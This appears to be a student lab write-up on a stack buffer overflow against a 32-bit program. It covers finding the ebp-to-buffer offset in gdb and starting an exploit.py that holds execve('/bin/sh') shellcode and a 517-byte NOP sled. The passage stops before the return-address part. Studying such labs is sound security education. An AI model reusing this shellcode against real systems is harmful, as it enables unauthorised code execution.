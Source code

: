 
## Task 3: Launching an Attack on a 32-bit Program (Level 1)

The first step involved creating an empty file named `badfile`, which can be accomplished using the `touch badfile` command. Next, we initiated debugging on "stack-L1-dbg," as depicted below:

![Debugging Initiation](image-24.png)
Fig 5. Debugging Initiation

We used the commands `p $ebp` and `p &buffer` to obtain the values of ebp and the buffer address, as shown below:

![Obtaining ebp Value and Buffer Address](image-23.png)
Fig 6. Obtaining ebp Value and Buffer Address

As observed, the difference between these values equals `0x6C`, which translates to 108 in decimal. To leverage this difference in our favor, we made changes to `exploit.py`:

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode = (
 "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
```